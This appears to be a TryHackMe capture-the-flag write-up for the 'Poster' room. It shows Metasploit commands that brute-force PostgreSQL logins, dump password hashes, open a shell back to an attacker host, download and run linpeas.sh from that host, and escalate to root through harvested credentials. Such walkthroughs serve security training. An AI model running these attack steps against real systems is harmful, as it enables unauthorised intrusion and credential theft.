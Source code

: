 # Poster - [TryHackMe](https://tryhackme.com/room/poster) Writeup

This room explores a server running PostgreSQL. By abusing misconfigurations and weak credentials, we successfully exploit the DBMS to gain system access and escalate privileges to root using Metasploit modules.

## Port Scanning
```python
nmap -sC -sV -p- -T4 10.10.160.136
```
Open ports:

* 22 — SSH

* 80 — HTTP

* 5432 — PostgreSQL

# Exploiting PostgreSQL

## Brute-force login:
```python
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 10.10.160.136
run

[+] 10.10.160.136:5432 - Login Successful: ****:*******
```

## Gathering system info:
```python
use auxiliary/admin/postgres/postgres_sql
set RHOSTS 10.10.160.136
set PASSWORD password
run

PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bi
```

## Dumping user hashes:
```python
use auxiliary/scanner/postgres/postgres_hashdump
set RHOSTS 10.10.160.136
set PASSWORD password
run

darkstart  md5...
poster     md5...

```

## Reading files:
```python
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
set RHOSTS 10.10.160.136
set PASSWORD password
set LHOST 10.10.10.10
run
```
Then:

```python
shell
```
## Privilege Escalation

In the file /home/dark/credentials.txt.
```python
dark:*********
```
```python
su dark
```

## Uploaded linpeas.sh

```python
python3 -m http.server 8080
wget http://10.10.10.10:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Found the creeds:

```python
$dbuname = "alison";
$dbpass = "********";
```
Switched to alison, got the user flag:

```python
su alison
cat user.txt
```

Checked sudo -l:

```python
(ALL : ALL) ALL
```
```python
sudo su
cat /root/root.txt
```
> Poster demonstrates how a misconfigured PostgreSQL server and poor credential management can lead to full system compromise. With a few Metasploit modules, we went from initial access to root shell
